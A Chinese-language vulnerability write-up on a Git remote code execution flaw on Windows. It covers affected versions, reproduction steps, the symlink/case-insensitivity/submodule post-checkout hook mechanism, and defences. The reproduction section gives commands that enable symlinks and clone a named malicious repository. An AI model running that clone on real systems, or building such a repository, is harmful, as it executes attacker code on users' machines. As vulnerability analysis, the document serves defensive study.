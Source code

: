 # Git 远程代码执行

# 漏洞环境

- windows10 系统
- Git-2.45.0 / 2.44.0 / 2.43.0-2.43.4 / 2.42.0-2.42.2 / 2.41.0 / 2.40.0-2.40.2 / <2.39.4
- git 开启符号链接支持

# 漏洞复现步骤

1、在Win10安装Git-2.39.1

2、配置好 SSH key 以后，打开 git 的符号链接支持`git config --global core.symlinks true `

3、克隆恶意仓库，仓库中命令会被执行`git clone --recursive git@github.com:amalmurali47/git_rce.git`

# 漏洞原理

## git clone 

​		首先，在我们每次运行命令 `git clone` 时，实际上会进行以下操作：

```
mkdir -p <path> && cd <path>    # 创建一个与仓库同名的文件夹并进入
git init					 	# 初始化当前的 git 仓库，包括 .git 目录以及所有子目录和文件
git remote add origin <远程仓库的url> 	# 将本地仓库链接到远程仓库
git fetch origin				# 下载对象引用
git checkout -b <branch> --track origin/<branch>	# 创建本地分支，并跟踪远程分支
```

## git submodule

​		`git submodule`用于在一个 Git 仓库中嵌入另一个 Git 仓库。子模块通常用于管理大型项目中的独立依赖项或组件，这些组件可以是独立开发的代码库。

​		要将一个外部仓库作为子仓库添加到现有的 Git 中，需要如下命令:

```
git submodule add <repository_url> <path>
<repository_url>: 外部仓库的路径，例子：https://github.com/example/repo.git
<path> ： 外部仓库存放在本仓库的目录名称
```

注意：当添加子模块后，该子模块的内容会被添加到本仓库中，`.git`虽然也会出现，但它是一个**符号链接，指向本仓库 `.git/modules/<path>`**

​		当我们克隆某个具有子仓库的仓库时，用 `git clone ` 不会自动获取子仓库的内容，要想同时克隆子仓库内容，需要运行 `git clone --recursive` 命令即加上 `--recursive` 参数

## git hooks

​		Git 的 hooks 功能，详情见*[ Git官方文档 ](https://git-scm.com/docs/githooks)*。`hooks`目录存在于 `.git` 目录下，里面存放了很多 shell 脚本，这些脚本会在git执行到某个阶段时被执行。Git 的 hooks 机制主要是针对顶层仓库的 `.git/hooks` 目录中的脚本。如果你有子模块（submodule），每个子模块也会有自己的 `.git` 目录，其中包含 `hooks` 目录。对于子模块中的 hook 脚本，Git会查找并运行每个子模块自身的脚本

​		举个例子，`hooks` 目录中有个脚本名字叫做 `commit-msg`，这个脚本在执行 `git commit -m xxx` 后，消息被提交前，会被执行。

​		根据 Git 官方文档提供的说明，`post-checkout` 在执行 `git-checkout` 或 `git-switch` 命令且工作树[^1]更新后会被执行。<font color="honydew">它也会在 `git clone` 之后运行，除非使用了 `--no-checkout(-n)` 选项。</font>

## `.git` 文件夹

​		`.git` 文件夹是 Git 版本控制系统在每个 Git 仓库中创建的一个隐藏文件夹，它包含了关于该仓库的所有版本控制信息。这个文件夹对于 Git 的正常运行至关重要，它存储了仓库元数据、对象数据库，管理分支和引用，支持钩子脚本以及存储索引信息。

​		在正常情况下，新建本地仓库并 `git init` 后，会自动创建一个 `.git` 文件夹。当上传仓库到托管平台时，不会将本地的 `.git` 文件夹一起上传，仓库会自动帮助创建 `.git` 文件夹其用户无法查看和修改。故 `.git` 文件夹中的钩子脚本只会存在本地，对本地仓库起到作用。

## 攻击原理

​		然后利用了windows文件系统大小写不区分的特点，在恶意仓库中有两个文件夹分别为`A`与`a`，且`a`文件夹为符号链接，链接到了 `.git`文件夹中，而`A`是一个子模块，在其中有一个`modules`文件夹，文件夹链接到另一个保存恶意脚本的仓库，该子仓库中含有恶意脚本`y/hooks/post-checkout`。

​		在执行命令 `git clone --recursive git@github.com:amalmurali47/git_rce.git ` 时，会向保存恶意脚本的子仓库发起 `clone` 请求，并将 `post-checkout` 恶意脚本保存到目录 `A/modules/x/y/hooks/` 下。而在大小写不敏感的操作系统上，会将其保存到目录 `a/modules/x/y/hooks/` 下，而 `a` 文件夹又链接到了 `.git` 文件夹。因此实际保存恶意脚本的目录是 `.git/modules/x/y/hooks/` 目录下。

​		实际上 Git 在进行对应操作时，会先判断是否有相应的钩子脚本存在，即 `git clone` 之前，先 `hook_exists(script_name)`，若有则 `find_hook(repo, script_name)` 找到脚本文件。

<font color="red">**注：**</font>这里还不清楚 Git 的寻找子模块的钩子脚本的逻辑是什么，但是通过该漏洞猜测，直接找了 `主仓库/.git/modules/*/hooks` 中的脚本，如果查找的是 `主仓库/.git/modules/*/.git/hooks` ，可以模拟主仓库，继续使用同名文件夹和符号链接的方法将钩子脚本放入子仓库的 `.git`文件夹中去

# 防御措施

1、升级 git 版本

2、禁用 git 的符号链接功能

3、不要克隆来路不明的恶意仓库

[^1]: Git 的工作树（Working Tree），也被称为工作目录（Working Directory），工作树是仓库中实际包含项目文件的目录，是你日常工作的地方，你可以在这个目录下创建、编辑、删除文件，就像在普通文件夹中操作一样。